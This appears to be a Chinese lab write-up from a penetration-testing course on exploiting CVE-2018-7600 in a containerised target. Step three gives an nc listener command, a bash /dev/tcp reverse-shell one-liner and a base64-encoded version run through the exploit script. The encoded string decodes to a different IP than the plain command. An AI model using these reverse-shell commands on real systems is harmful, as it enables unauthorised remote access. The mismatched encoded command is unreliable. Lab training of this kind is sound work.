




# 第三章：基于容器技术的渗透测试靶场环境构建
## 实验一：使用反弹Shell利用CVE-2018-7600
### 步骤一
* **构建可以接受外部传入利用命令的 Python 利用代码**
    编写要求的py代码
    
### 步骤二
* **基于上述利用代码，完成漏洞存在性证明**
执行如下下代码`python3 exp.py 127.0.0.1 8080 "id"`,得到的运行结果如图所示

### 步骤三  
* **基于 bash 重定向完成反弹 Shell**
 1. 在你的kali中，使⽤nc监听⼀个端⼝
`nc -lvvp 2333`


2. 将执⾏的命令转换为 base64

`echo 'bash -i >& /dev/tcp/192.168.56.101/2333 0>&1' | base64`



3. 打开⼀个新终端，利⽤PoC脚本完成反弹Shell
    使用之前的base64继续进行操作
  ```
  python3 exp.py 127.0.0.1 8080 "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTMuMTY4LjU2LjEwMS8yMzMzIDA+JjEK' |   base64 -d | bash -i"
```
